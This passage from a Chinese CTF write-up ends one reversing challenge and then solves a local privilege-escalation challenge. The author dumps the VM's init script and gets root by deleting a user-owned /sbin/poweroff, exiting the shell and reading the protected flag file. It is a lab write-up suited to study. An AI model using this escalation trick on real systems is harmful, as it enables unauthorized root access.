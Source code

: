 发现是把 `a0` 的 8 位 16 进制表示输出

三次调用 `0x21a` 前，`a0` 分别是 `0x20001018, (0xdeadbeef ^ 0x2000106c), 224`

转换成十六进制，就是最后的 flag

## 传达不到的文件

很愉快的秒了

查看 init 脚本：

```shell
/ # cat etc/init.d/rcS 
#! /bin/sh

mkdir -p /tmp
mount -t proc none /proc
mount -t sysfs none /sys
mount -t debugfs none /sys/kernel/debug
mount -t devtmpfs devtmpfs /dev
mount -t tmpfs none /tmp
mdev -s

echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
chmod 400 /proc/kallsyms

chown 0:0 /chall
chmod 04111 /chall

cat /dev/sda > /flag2
chown 1337:1337 /flag2
chmod 0400 /flag2

setsid /bin/cttyhack setuidgid 1000 /bin/sh

umount /proc
umount /tmp


poweroff -d 0  -f
```

最后一条指令 `poweroff -d 0  -f` 用来在我们关闭 shell 后退出这个有 root 权限的 init 脚本

但是很遗憾，我们有 `/sbin/poweroff` 的所有权，所以：

```shell
rm /sbin/poweroff
```

之后按 CTRL + D 退出我们这个 nobody 的 shell，就有 root 权限了，之后

```shell
cat flag2
```
